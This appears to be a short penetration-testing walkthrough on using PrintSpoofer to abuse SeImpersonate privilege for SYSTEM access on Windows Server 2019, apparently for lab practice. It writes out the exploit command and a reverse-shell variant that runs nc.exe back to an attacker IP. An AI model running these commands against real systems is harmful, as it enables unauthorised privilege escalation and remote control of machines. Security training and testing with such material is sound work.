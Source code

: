 # PrintSpoofer

[Rogue-Potato](https://k4sth4.github.io/Rogue-Potato/) abused SeImpersonate privilege to get execution as SYSTEM for Windows Server 2019. [PrintSpoofer](https://github.com/k4sth4/PrintSpoofer/blob/main/PrintSpoofer.exe) can be an alternate to [Rogue-Potato](https://k4sth4.github.io/Rogue-Potato/). You can exploit SeImpersonate privilege on Windows Server 2019 with [PrintSpoofer](https://github.com/k4sth4/PrintSpoofer/blob/main/PrintSpoofer.exe) and it's so easy.

## Exploitation
```markdown
whomai /priv
```

![OnPaste 20220611-195845](https://user-images.githubusercontent.com/106917304/173192084-79da14f7-145a-455c-9e9c-8a61183a3d08.png)


Check for systeminfo

![OnPaste 20220611-200054](https://user-images.githubusercontent.com/106917304/173192153-437fb579-81f4-400f-a694-8621b7570106.png)

The OS is Microsoft Windows server 2019 and x64-bit arch. SeImpersonate privilege is Enabled. With this information it seems that host is likey vulnerable to [PrintSpoofer](https://github.com/k4sth4/PrintSpoofer/blob/main/PrintSpoofer.exe).

Upload the [PrintSpoofer](https://github.com/k4sth4/PrintSpoofer/blob/main/PrintSpoofer.exe) to target machine.

![OnPaste 20220611-200357](https://user-images.githubusercontent.com/106917304/173192261-06ff1f16-13a3-485f-af1f-3af85c03543e.png)

Execute the exploit.
```markdown
.\PrintSpoofer.exe -i -c cmd
```

![OnPaste 20220611-200624](https://user-images.githubusercontent.com/106917304/173192321-9d8ab1dc-b2bf-4303-97cb-d0ae41cbdabd.png)

We're SYSTEM now!

#### Alternate
We can also get a reverse shell if we want.
Execute nc binary with PrintSpoofer.
```markdown
.\PrintSpoofer.exe -c ".\nc.exe 10.11.x.x 443 -e cmd"
```


